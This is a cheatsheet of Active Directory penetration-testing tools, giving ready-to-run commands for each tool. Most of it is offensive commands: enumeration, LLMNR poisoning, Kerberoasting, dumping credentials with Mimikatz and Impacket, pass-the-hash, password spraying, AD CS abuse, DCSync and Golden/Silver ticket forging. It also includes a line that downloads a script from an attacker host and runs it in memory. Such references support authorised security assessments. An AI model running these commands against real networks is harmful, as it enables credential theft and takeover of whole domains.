 # Active Directory Security Tools Cheatsheet 🛡️

This cheatsheet provides a quick reference for essential tools used in Active Directory security assessments and penetration testing.

---

## ## 1. Enumeration & Situational Awareness

Tools for mapping the AD environment, finding users, computers, groups, and identifying attack paths.

### ### PowerView
* **Purpose:** A PowerShell tool for gaining network situational awareness on Windows domains. It's the go-to for manual AD enumeration.
* **Availability:** Part of the PowerSploit framework on GitHub. (https://github.com/PowerShellMafia/PowerSploit)
* **Common Commands:**
    ```powershell
    # Get information about the current domain
    Get-NetDomain

    # Find all users with a description containing "admin"
    Get-NetUser -Opsec | Where-Object {$_.description -like "*admin*"}

    # Get members of the "Domain Admins" group
    Get-NetGroupMember -GroupName "Domain Admins"

    # Find computers running a server OS
    Get-NetComputer -OperatingSystem "*Server*"

    # Find users vulnerable to Kerberoasting (with SPNs set)
    Get-NetUser -SPN
    ```

### ### BloodHound & SharpHound
* **Purpose:** The single most important tool for visualizing AD attack paths. `SharpHound` is the data collector (ingestor), and `BloodHound` is the GUI for analysis.
* **Availability:** GitHub project. (https://github.com/BloodHoundAD/BloodHound)
* **Common Commands (SharpHound):**
    ```powershell
    # Collect all available data from the domain and create a ZIP file
    SharpHound.exe --collectionmethod All --zipfilename loot.zip

    # Run the collector from memory using PowerShell
    IEX (New-Object Net.WebClient).DownloadString('http://<attacker_ip>/SharpHound.ps1');
    Invoke-BloodHound -CollectionMethod All -ZipFileName loot.zip
    ```

### ### AdFind
* **Purpose:** A command-line tool for querying Active Directory. It's extremely fast and powerful for targeted LDAP queries.
* **Availability:** Free tool from Joeware. (http://www.joeware.net/freetools/tools/adfind/)
* **Common Commands:**
    ```powershell
    # Find all GPOs in the domain
    AdFind.exe -f "(objectClass=groupPolicyContainer)"

    # Find all users with Service Principal Names (Kerberoastable)
    AdFind.exe -f "(&(samAccountType=805306368)(servicePrincipalName=*))" -dn sAMAccountName servicePrincipalName

    # Find users with 'admin' in their name
    AdFind.exe -f "(&(objectClass=user)(samaccountname=*admin*))"
    ```

---

## ## 2. Credential Attacks & Hash Grabbing

Tools for acquiring password hashes through network-level attacks.

### ### Responder
* **Purpose:** Captures NTLMv2 hashes by poisoning LLMNR and NBT-NS name resolution requests.
* **Availability:** Built into Kali Linux. (https://github.com/lgandx/Responder)
* **Common Commands:**
    ```bash
    # Run Responder on your network interface to start listening and poisoning
    sudo responder -I eth0 -v
    ```

### ### Rubeus
* **Purpose:** A C# toolset for raw Kerberos interaction. It's the primary tool for **Kerberoasting** and **AS-REP Roasting**.
* **Availability:** GitHub project. (https://github.com/GhostPack/Rubeus)
* **Common Commands:**
    ```powershell
    # Perform a Kerberoast attack, requesting tickets for all SPNs
    Rubeus.exe kerberoast /outfile:kerberoast_hashes.txt

    # Perform an AS-REP roast for users without pre-authentication
    Rubeus.exe asreproast /outfile:asrep_hashes.txt
    ```

---

## ## 3. Exploitation, Lateral Movement & Privilege Escalation

Tools for using credentials to move around the network and escalate privileges.

### ### Mimikatz
* **Purpose:** The quintessential Windows credential dumping tool. Used to extract plaintext passwords, hashes, and Kerberos tickets from memory. **Requires local admin rights.**
* **Availability:** GitHub project. (https://github.com/gentilkiwi/mimikatz)
* **Common Commands:**
    ```powershell
    # Get debug privileges (required for many commands)
    privilege::debug

    # Dump all available credentials from the LSA process
    sekurlsa::logonpasswords

    # Perform a Pass-the-Ticket attack by injecting a stolen .kirbi ticket
    kerberos::ptt /path/to/ticket.kirbi
    ```

### ### Impacket Suite
* **Purpose:** A collection of Python scripts for working with network protocols. Essential for interacting with Windows machines from a Linux attacker host.
* **Availability:** Python library on GitHub. (https://github.com/fortra/impacket)
* **Common Commands:**
    ```bash
    # Get a semi-interactive shell using a password or hash (Pass-the-Hash)
    impacket-psexec <DOMAIN>/<USER>@<TARGET_IP>
    impacket-psexec <DOMAIN>/<USER>@<TARGET_IP> -hashes <LM_HASH>:<NT_HASH>

    # Dump all hashes from a remote machine's SAM/LSA
    impacket-secretsdump <DOMAIN>/<USER>:<PASSWORD>@<TARGET_IP>

    # Perform a Kerberoast attack from Linux
    impacket-GetUserSPNs -request -dc-ip <DC_IP> <DOMAIN>/<USER>
    ```

### ### CrackMapExec (CME)
* **Purpose:** A multi-functional tool for automating assessment of large AD networks. Used for password spraying, command execution, and situational awareness.
* **Availability:** Built into Kali Linux. (https://github.com/byt3bl33d3r/CrackMapExec)
* **Common Commands:**
    ```bash
    # Check which accounts a password works for on a subnet
    cme smb 192.168.1.0/24 -u users.txt -p 'Password123!'

    # Execute a command on all systems where you have admin access
    cme smb 192.168.1.0/24 -u Administrator -H <NT_HASH> -x "whoami"

    # Dump LSA secrets from all accessible hosts
    cme smb 192.168.1.0/24 -u <USER> -p <PASSWORD> --lsa
    ```

### ### Certipy
* **Purpose:** The primary tool for finding and exploiting vulnerabilities in Active Directory Certificate Services (AD CS).
* **Availability:** Python tool on GitHub. (https://github.com/ly4k/Certipy)
* **Common Commands:**
    ```bash
    # Find vulnerable certificate templates on the domain
    certipy find -u <USER>@<DOMAIN> -p '<PASSWORD>' -dc-ip <DC_IP> -vulnerable

    # Request a certificate based on a vulnerable template (e.g., ESC1)
    certipy req -u <USER>@<DOMAIN> -p '<PASSWORD>' -ca <CA_NAME> -template <TEMPLATE_NAME> -target <TARGET_SERVER>

    # Use the generated certificate to authenticate and get a hash (NTLM)
    certipy auth -pfx <CERTIFICATE.pfx> -dc-ip <DC_IP>
    ```

---

## ## 4. Domain Dominance & Persistence

Tools for achieving and maintaining control over the entire domain.

### ### Mimikatz (for Domain Dominance)
* **Purpose:** Used to perform **DCSync** attacks and create **Golden/Silver Tickets**.
* **Availability:** GitHub project.
* **Common Commands:**
    ```powershell
    # Perform a DCSync attack to get the password hash of the krbtgt account
    lsadump::dcsync /domain:corp.local /user:krbtgt

    # Forge a Golden Ticket to impersonate any user (e.g., Administrator)
    kerberos::golden /user:Administrator /domain:corp.local /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_HASH> /ptt

    # Forge a Silver Ticket for a specific service (e.g., CIFS on a DC)
    kerberos::golden /user:Administrator /domain:corp.local /sid:<DOMAIN_SID> /target:dc01.corp.local /service:cifs /rc4:<MACHINE_ACCOUNT_HASH> /ptt
    ```
